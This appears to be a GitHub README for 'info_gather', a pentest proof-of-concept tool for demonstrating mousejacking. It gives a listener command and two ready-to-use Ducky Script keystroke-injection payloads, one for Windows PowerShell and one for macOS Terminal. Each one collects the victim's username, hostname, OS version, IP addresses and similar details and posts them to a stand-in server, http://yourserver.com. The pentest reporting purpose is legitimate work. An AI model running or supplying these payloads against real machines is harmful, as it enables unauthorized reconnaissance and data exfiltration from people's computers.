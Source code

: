 # info_gather
Gather Windows Info for POC. A good use case is a POC for mousejacking finding on a pentest report.

Run the server and any port using:

```
python3 info_gather.py 80
```

For a victim Windows machine use this Ducky Script to send the info to the server host:

```
DELAY 2000
GUI r
DELAY 500
STRING powershell.exe
DELAY 500
ENTER
DELAY 500
STRING $username = $env:username;$hostname = hostname;$os = (Get-CimInstance Win32_OperatingSystem).Caption;$public_ip = (Invoke-WebRequest -Uri 'http://ipinfo.io/ip').Content.Trim();$data = @{'username' = $username;'hostname' = $hostname;'os' = $os;'public_ip' = $public_ip};$json = $data | ConvertTo-Json;Invoke-RestMethod -Method Post -Uri "http://yourserver.com" -Body $json -ContentType "application/json"
DELAY 500
ENTER
```


For a victim MacOS machine, use this Ducky Script to send the info to the server host:
```
DELAY 2000
COMMAND SPACE  // Opens Spotlight Search
DELAY 500
STRING terminal
DELAY 500
ENTER
DELAY 1000
STRING username=$(whoami);hostname=$(scutil --get ComputerName);os=$(sw_vers -productName);os_version=$(sw_vers -productVersion);kernel_version=$(uname -r);public_ip=$(curl -s ifconfig.me);local_ip=$(ipconfig getifaddr en0);mac_address=$(ifconfig en0 | grep ether | awk '{print $2}');uptime=$(uptime | awk '{print $3,$4}' | sed 's/,//');data="{\"username\":\"$username\",\"hostname\":\"$hostname\",\"os\":\"$os\",\"os_version\":\"$os_version\",\"kernel_version\":\"$kernel_version\",\"public_ip\":\"$public_ip\",\"local_ip\":\"$local_ip\",\"mac_address\":\"$mac_address\",\"uptime\":\"$uptime\"}";curl -X POST -H "Content-Type: application/json" -d "$data" http://yourserver.com
DELAY 500
ENTER
```
